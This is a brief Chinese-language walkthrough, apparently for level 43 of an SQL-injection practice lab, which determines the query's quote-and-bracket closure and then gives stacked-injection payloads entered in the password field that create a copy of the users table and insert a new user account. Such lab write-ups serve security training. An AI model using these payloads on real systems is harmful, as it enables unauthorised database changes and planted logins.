

# Less - 43

---

# 通关教程

---

## 1、判断闭合

---

发现跟less-42一模一样

​​

在password的位置输入admin'

​​

根据错误信息判断闭合方式为’)#，并且为字符型注入。因为有完整的错误回显，这里肯定也是能使用报错注入攻击的，但是这里我们就不使用报错注入攻击了，我们直接使用堆叠注入攻击

---

## 2、创建一张表

---

```http
a');create table test like users;#
```

​​

​​

---

## 3、创建一个新用户

---

```http
a');insert into users values(18,'cmx','cmx')#
```

​​

​​

‍
